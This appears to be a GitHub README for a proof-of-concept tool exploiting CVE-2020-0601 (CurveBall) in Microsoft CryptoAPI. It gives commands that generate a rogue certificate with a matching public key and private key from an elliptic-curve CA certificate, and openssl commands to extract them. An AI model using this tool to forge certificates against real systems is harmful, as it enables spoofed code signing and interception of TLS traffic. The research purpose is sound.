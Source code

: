 # CurveBall (CVE-2020-0601) - PoC
CVE-2020-0601: Also known as CurveBall or ChainOffFools, is a vulnerability in the Microsoft CryptoApi where elliptic curve signatures (ECDSA) of certificates is not correctly verified. 

There is a very nice blog post [here](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc/) which explains the issue very neatly.

*This should only be used for educational and researching purposes!*

## How to

Provide the console application with the path to an elliptic curve certificate.
```
CurveBall.exe 'PathToCA.cer'
```
The program will output a .p12 file contaning a certificate with the same public key and serial number as the original, including a key.

To extract key and cert can be extracted from the .p12 by using openssl with the following commands
```
openssl pkcs12 -in Rogue.p12 -nocerts -out CA.key
```
and 
```
openssl pkcs12 -in Rogue.p12 -clcerts -nokeys -out CA.cer
```
NOTE: Default password is 'Test1234'.
